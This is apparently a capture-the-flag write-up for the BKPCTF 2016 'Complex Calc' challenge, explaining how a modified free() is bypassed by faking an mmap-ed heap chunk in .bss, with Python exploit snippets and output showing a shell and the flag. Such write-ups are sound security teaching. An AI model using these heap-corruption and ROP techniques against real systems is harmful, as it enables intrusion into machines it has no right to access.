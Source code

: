 +++
title = "BKPCTF 2016 - Complex Calc"
author = "hugsy"
date = 2016-03-08T00:00:00Z
updated = 2016-03-08T00:00:00Z

[taxonomies]
categories = ["ctf"]
tags = ["pwn, gef , ida , bkpctf-2016 , x86 , heap-overflow"]
+++


The challenge is the sequel to `simple_calc`. If you haven't read our [write-up](/posts/2016/03/07/bkpctf-2016-simple-calc-writeup.html), now is the time 😊


### Info ###


```bash
~ $ file d60001db1a24eca410c5d102410c3311d34d832c
d60001db1a24eca410c5d102410c3311d34d832c: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~ $ checksec.sh --file d60001db1a24eca410c5d102410c3311d34d832c
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   d60001db1a24eca410c5d102410c3311d34d832c
```


### Vulnerability ###

At the very first look, `simple_calc` and `complex_calc` look totally
similar. Both are statically compiled, same protections, the vulnerability is
located at the same spot (i.e. stack overflow with a malloc-ed buffer we fully
control). Let's do some bindiffing!


One of my new toys for quite a few months now is IDA Python plugin
[diaphora](https://github.com/joxeankoret/diaphora) by Joxean Koret (aka
{{ twitter(user="matalaz") }}). By diffing then, the issue is immediately visible:

![image_alt](https://i.imgur.com/0tkaNNT.png)

The `free()` function was modified so we cannot benefit from the graceful exit
of the function by simply passing a NULL pointer. Now, `free()` will always
proceed with the address given as first parameter (therefore stored in $rdi).

So let's see how `free()`
works. [Some blogs](https://kitctf.de/writeups/0ctf2015/freenote) already explain very well how
[Glibc heap is structured](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
and how
[heap](http://phrack.org/issues/57/9.html)
[corruptions](http://winesap.logdown.com/posts/261369-plaid-ctf-2015-plaiddb-writeup)
work. So I will assume you know as well.

To stand on common ground, here is what a heap chunk looks like:

![image_alt](https://i.imgur.com/EVnKlBg.png)

When `free()` is called, some checks are made to know how the chunk must be
deallocated:

   1. If its size is below `MMAP_THRESHOLD` (default 128KB), then the chunk is
      deallocated and inserted into the free chunk doubly linked list. The
      pointers of the list are updated using the `unlink` macro.
   1. If the size is higher than `MMAP_THRESHOLD`, then the chunk was not
      allocated via the `brk`/`sbrk` syscall, but mapped in memory via the
      syscall `mmap`. If this heap chunk is `mmap`-ed, then its size will be a
      multiple of 2 (i.e. size & 2 = 2).

This actually shows quite well in the flow graph:

![image_alt](https://i.imgur.com/omGULMz.png)

Since we control what is written in the heap (same method than `simple_calc`),
we can control whether we want to deallocate using `unlink` or `munmap` (simply
by or-ing the QWORD interpreter as the chunk size with 2). If we go for using
the regular deallocator, we need to fake our heap chunk in such a way that it will
pass all the checks performed later on. Any failure on the address will
`abort()` the program, making it enable to reach the `ret` instruction, and
therefore triggering our ROP chain.

On the other hand, the `munmap()` function is actually fairly straight-forward:

```bash
.text:0000000000435670 munmap          proc near               ; CODE XREF: __assert_fail_base+110
.text:0000000000435670                                         ; _nl_load_domain+4C9 ...
.text:0000000000435670                 mov     eax, 0Bh        ; Alternative name is '__munmap'
.text:0000000000435675                 syscall
.text:0000000000435677                 cmp     rax, -0FFFh
.text:000000000043567D                 jnb     __syscall_error
.text:0000000000435683                 retn
.text:0000000000435683 munmap          endp
```

If the syscall fails, it will nicely set $rax to a negative value and
return back to `free()`, which will return (in error as well but we don't care)
to our main loop, which can then return nicely too and trigger our
code. Perfect! Let's go with this!


### Exploitation ###

So we are going to use the arithmetic operators and result locations in the
`.bss` since they are at predictable, bearing in mind that each one of them is
only a DWORD (whereas we are here on x86-64 architecture). We will want to set
the following mapping:

```bash
.bss:00000000006C4A88 add_result      dd ?                    ; <-- previous chunk size
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90 div_operator_1  dd ?                    ; <-- chunk size (need to | 2 for flag IS_`mmap`-ed)
.bss:00000000006C4A94 div_operator_2  dd ?                    ; <--
.bss:00000000006C4A98 div_result      dd ?                    ; <-- free will point @this chunk
.bss:00000000006C4A9C                 align 10h
```

We will point the $rdi used by the `free()` call pointing to `div_result`. But
now which value should we use then for operator_1 and operator_2 ?

Let's go back to `free()` flow graph:

![image_alt](https://i.imgur.com/7ZEy4nD.png)

As we see, several conditions must be filled:

   1. `chunk_size = div_operator_2 | div_operator_1` (and **must** be divisible by 2).
   1. `prev_size  = dword_padding  | add_result`
   1. `0x0fff & ((@prev_size-prev_size) | (prev_size+size&0xfff...ff8)) == 0`

If we passed those checks, $rcx will have the address to `munmap()`, and $rsi
the range to deallocate. `add_result` is at 0x6C4A88 so we must ensure the three
last nibbles end with 0xa88 to nullify the substration. We decide to store in
`add_result` the value 0x0x11111a88 as the addition of 0x11110a88 and 0x1000

```python
    # set add_result
    s.read_until("=> ")
    op1 = 0x11110a88
    op2 = 0x00001000
    do_add(s, op1, op2)
    ok("prev_size=%#x+%#x=%#x" % (op2, op1, op1+op2))
```

Now that we have `prev_size`, we can make up a value for `size` too. But here is
the trick, the value of `size` will end in $rdi when `munmap` syscall will
happen. If we point to a valid address, it will be unmapped and our exploit will
fail. So to be safe, we will use a huge valid and let the kernel throw us away
:) Here we used 0x7fffdeaa0000.

`size = 0x7fffdeaa0000 - 0x11111a88 = 0x9ffffeee578`

Splitting the result into 2 DWORD and we have div_operator_1=0xfffeee578 and
div_operator_2=0x9f.

```python
    # set div_1 and div_2
    s.read_until("=> ")
    op2, op1  = 0x9f, 0xfffeee578 | 2
    do_div(s, op1, op2)
    ok("size=0x%.8x%.8x" % (op2, op1))
```

The rest of the exploit is exactly similar to the one used for `simple_calc`!

Fire up!
```bash
$ ./complex_calc.py                                                                                                                                       [23:43]
[+] Connected to simplecalc.bostonkey.party:5500
[+] Running 47 calculations
[+] Building fake chunk 0x6c4a98
[+] prev_size=0x1000+0x11110a88=0x11111a88
[+] size=0x0000009ffffeee57a
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
cat key
BKPCTF{th3 l4st 1 2 3z}
```

And we get `BKPCTF{th3 l4st 1 2 3z}`

The full exploit is [here](https://gist.github.com/hugsy/7bcb5db17b75a86ae3bd).
